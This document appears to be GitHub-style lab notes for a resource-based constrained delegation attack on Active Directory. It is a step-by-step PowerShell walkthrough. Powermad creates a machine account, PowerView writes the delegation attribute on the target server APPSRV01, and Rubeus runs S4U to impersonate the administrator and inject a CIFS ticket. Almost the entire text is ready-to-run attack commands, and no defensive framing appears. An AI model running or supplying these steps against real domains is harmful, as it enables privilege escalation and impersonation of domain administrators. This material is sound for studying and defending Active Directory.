 **IMPORTANT NOTE:** ALL THIS PROCESS MUST BE PERFORMED FROM A POWERSHELL CONSOLE

1st We need an SPN in order to perform the attack and GENERALLY an ACL that give us write permission over the backend machine object we want to compromise(in this PoC it the backend machine will be APPSRV01, the user that have write perssions will be contoso\trike and the fronted SPN will be contoso\mycomputer$)

2nd Create a new computer machine object that will have an SPN assigned to it; creation of the machine with powermad 

`New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force);`

Checking the SPN for that computer with powerview:

`Get-DomainComputer -Identity myComputer`

3rd We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack:
	
 1. `$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid`	
 	
 2. `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"`
	
 3. `$SDbytes = New-Object byte[] ($SD.BinaryLength)`
	
 4. `$SD.GetBinaryForm($SDbytes,0)`
	
 5. `Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
	
4th After the SecurityDescriptor has been converted to the correct format, we can use Get-DomainComputer to obtain a handle to the computer object for APPSRV01 and then pipe that into Set-DomainObject , which can update properties by specifying them with -Set options:

VERIFICATION THAT WE SUCCESSFULLY WROTE THE "msds-allowedtoactonbehalfofotheridentity" correctly:
	
 1. `$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
	
 2. `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0`
	
 3. `$Descriptor.DiscretionaryAcl`   -> this will return us an SID in the SecurityIdentifier field, that we must convert
	
 4. `ConvertFrom-SID sid_number`  -> this must return us with: contoso\myComputer$
	
NOW WE WILL REQUEST A TGS FOR THE SPN: "CIFS/appsrv01.prod.corp1.com" USING RUBEUS AND THE S4USELF AND S4UPROXY(this part is very similar to constrained delegation)
	
 1. `.\Rubeus.exe hash /password:h4x`
	
 2. `.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.contoso.com /ptt`
